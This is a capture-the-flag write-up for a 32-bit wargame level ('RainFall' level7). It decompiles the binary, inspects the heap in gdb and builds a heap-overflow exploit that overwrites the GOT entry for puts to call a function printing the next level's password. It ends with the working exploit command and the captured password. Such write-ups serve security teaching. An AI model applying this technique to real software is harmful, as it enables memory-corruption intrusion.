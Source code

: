 ## Step 1: Static & Dynamic Analysis

```c
080484f4    int32_t m()
080484f4    {
080484f4        return printf("%s - %d\n", &c, time(nullptr));
080484f4    }

08048521    int32_t main(int32_t argc, char** argv, char** envp)
08048521    {
08048521        int32_t* ptr1 = malloc(8);
0804853e        *(uint32_t*)ptr1 = 1;
08048556        ptr1[1] = malloc(8);
08048560        int32_t* ptr2 = malloc(8);
0804856d        *(uint32_t*)ptr2 = 2;
08048585        ptr2[1] = malloc(8);
080485a0        strcpy(ptr1[1], argv[1]);
080485bd        strcpy(ptr2[1], argv[2]);
080485eb        fgets(&c, 0x44, fopen("/home/user/level8/.pass", u"r…"));
080485f7        puts("~~");
08048602        return 0;
08048521    }
```

### Explanation

Here, the binary allocates a first block of `8 bytes`.  
In the first half (size: `4 bytes`), it stores an integer value (`1`), and in the second half, it stores a pointer (size: `4 bytes`) to a second address space, provided by another malloc (`8 bytes`).  
In this second address space, the binary will use `strcpy()` to copy the `argv[1]` parameter without performing any checks for a potential `buffer overflow`.  
The binary performs the exact same operation a second time, but this time it stores `2` as the integer value and uses `strcpy()` on `argv[2]`.  

If we supply more than `8 bytes` as the first and second parameters, we will overwrite the data stored next to them.  

```asm
(gdb) disas main
   ...
   ...
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:   movl   $0x8048703,(%esp)
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    $0x0,%eax
   0x08048601 <+224>:   leave  
   0x08048602 <+225>:   ret  
```

```bash
(gdb) b*0x080485f7

(gdb) run "aaaaaaaa" "aaaaaaaa"

(gdb) info proc mappings
process 4420
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level7/level7
         0x8049000  0x804a000     0x1000        0x0 /home/user/level7/level7
         0x804a000  0x806b000    0x21000        0x0 [heap]
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

```bash
(gdb) x/32wx 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x61616161      0x61616161
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x61616161      0x61616161
0x804a040:      0x00000061      0x00020fc1      0xfbad240c      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0xb7fd1980
(gdb)
```

At this point, we can observe that by overflowing our first parameter, we overwrite `0x0804a038`, which is the address pointing to the address space allocated by the last malloc.  
This address space is where `strcpy()` will write `argv[2]`.  

If we overwrite this pointer with the address of the `puts()` entry in the `GOT` and then provide the address of `m()` as the second parameter, the binary will jump to `m()` instead of calling `puts()`.  

```asm
int puts(const char *s);
0x08048400      jmp     dword [puts] ; 0x8049928
0x08048406      push    0x28       ; '(' ; 40
0x0804840b      jmp     section..plt
```

## Step 2: Exploiting the Binary

```bash
level7@RainFall:~$ ./level7 "$(python -c 'print(("A" * 20) + ("\x08\x04\x99\x28"[::-1]))')" "$(python -c 'print(("\x08\x04\x84\xf4"[::-1]))')"
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```